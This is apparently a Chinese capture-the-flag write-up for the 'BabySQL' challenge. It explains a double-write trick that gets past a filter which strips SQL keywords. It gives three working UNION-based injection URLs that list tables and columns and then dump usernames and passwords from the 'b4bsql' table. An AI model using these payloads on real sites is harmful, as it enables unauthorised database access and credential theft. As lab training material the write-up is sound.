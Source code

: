 # [极客大挑战 2019]BabySQL

## 知识点

`sql注入`

`双写绕过`

## 解题

注意`information_schema`中包含`or`，所以双写绕过为`infoorrmation_schema`

```sql
check.php?username=1%27ununionion selselectect 1,2,group_concat(table_name) frfromom infoorrmation_schema.tables whwhereere table_schema=database()%23&password=123

?username=1%27ununionion selselectect 1,2,group_concat(column_name) frfromom infoorrmation_schema.columns whwhereere table_name="b4bsql"%23&password=123

?username=1%27ununionion selselectect 1,2,group_concat(id,username,passwoorrd) frfromom b4bsql%23&password=123
```
